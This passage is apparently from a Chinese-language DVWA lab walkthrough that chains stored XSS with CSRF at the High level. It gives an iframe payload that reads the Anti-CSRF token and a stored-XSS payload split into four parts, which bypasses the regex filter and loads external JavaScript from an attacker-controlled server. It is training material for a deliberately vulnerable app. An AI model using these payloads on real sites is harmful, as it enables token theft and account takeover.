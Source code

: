 由于跨域是不能实现的，所以我们要将攻击代码注入到 dvwa 靶机中，才有可能完成攻击。下面利用 High 级别的存储型 XSS 漏洞协助获取 Anti-CSRF token(因为这里的 XSS 注入有长度限制，不能够注入完整的攻击脚本，所以只获取 Anti-CSRF token)。

注入代码如下
`<iframe src="../csrf" onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`

**另类通关**

通过 XSS 获得 token 之后修改密码
同等级的 XSS-Stored $name 可被我们利用做 XSS，这样就可以配合 CSRF 来重置用户密码了。
需要先说明一下 DVWA 的数据库设计，guestbook 表的 name 字段类型为 varchar(100)，也就是说最多 name 只能写入 100 个字符，超过的字符会被数据库抛弃不存储。

由于100个字符的限制，将payload分成多份提交
```js
<svg/onload="s='&#115;&#99;&#114;&#105;&#112;&#116;'">  # 事件内可以解析ASCII编码后的字符串
<svg/onload="j=document.createElement(s)">  # 拼接出一个script来引入外部js
<svg/onload="j.src='http://<服务器B>/x.js'">
<svg/onload="document.body.appendChild(j)">
```
这样就可以绕过后端的正则过滤

为了方便测试，在 x.js 里只写了 `alert('HelloDVWA')`

![image](../../../img/渗透/实验/dvwa/dvwa82.png)
